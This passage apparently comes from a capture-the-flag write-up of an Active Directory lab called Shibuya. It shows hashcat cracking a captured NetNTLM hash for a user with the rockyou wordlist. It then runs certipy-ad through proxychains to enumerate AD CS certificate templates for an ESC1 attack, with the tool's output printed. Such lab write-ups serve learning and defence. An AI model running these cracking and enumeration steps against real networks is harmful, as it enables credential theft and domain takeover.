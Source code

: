 lets try to crack it its work for nigel.mills

    ➜  Shibuya hashcat nigel_hash /usr/share/wordlists/rockyou.txt 
    NIGEL.MILLS::SHIBUYA:b27bf70a784281ee::[SNIP]:S[redacted]3

## Final Part

### ESC1

```
➜  Shibuya proxychains -q certipy-ad find -username 'Nigel.Mills' -password '<redacted>' -vulnerable -dc-ip 10.10.100.216 -stdout -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.100.216:636 - ssl
[+] Default path: DC=shibuya,DC=vl
[+] Configuration path: CN=Configuration,DC=shibuya,DC=vl
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     SHIBUYA.VL\ssh (S-1-5-21-87560095-894484815-3652015022-3101)
     SHIBUYA.VL\shibuya (S-1-5-21-87560095-894484815-3652015022-1108)
     SHIBUYA.VL\Nigel Mills (S-1-5-21-87560095-894484815-3652015022-1367)
     SHIBUYA.VL\Everyone (SHIBUYA.VL-S-1-1-0)
     SHIBUYA.VL\t1_admins (S-1-5-21-87560095-894484815-3652015022-1103)
     SHIBUYA.VL\Authenticated Users (SHIBUYA.VL-S-1-5-11)
     SHIBUYA.VL\Users (SHIBUYA.VL-S-1-5-32-545)
     SHIBUYA.VL\Domain Users (S-1-5-21-87560095-894484815-3652015022-513)
     SHIBUYA.VL\Domain Computers (S-1-5-21-87560095-894484815-3652015022-515)
     SHIBUYA.VL\Remote Desktop Users (SHIBUYA.VL-S-1-5-32-555)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'AWSJPDC0522.shibuya.vl' at '10.10.100.216'
[*] Trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.100.216
[!] Got error while trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'shibuya-AWSJPDC0522-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'AWSJPDC0522.shibuya.vl' (10.10.100.216)
[*] Got CA configuration for 'shibuya-AWSJPDC0522-CA'
[+] Resolved 'AWSJPDC0522.shibuya.vl' from cache: 10.10.100.216
[+] Connecting to 10.10.100.216:80
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : shibuya-AWSJPDC0522-CA
    DNS Name                            : AWSJPDC0522.shibuya.vl
    Certificate Subject                 : CN=shibuya-AWSJPDC0522-CA, DC=shibuya, DC=vl
    Certificate Serial Number           : 2417712CBD96C58449CFDA3BE3987F52
    Certificate Validity Start          : 2025-02-15 07:24:14+00:00
    Certificate Validity End            : 2125-02-15 07:34:13+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SHIBUYA.VL\Administrators
      Access Rights
        ManageCertificates              : SHIBUYA.VL\Administrators
                                          SHIBUYA.VL\Domain Admins
```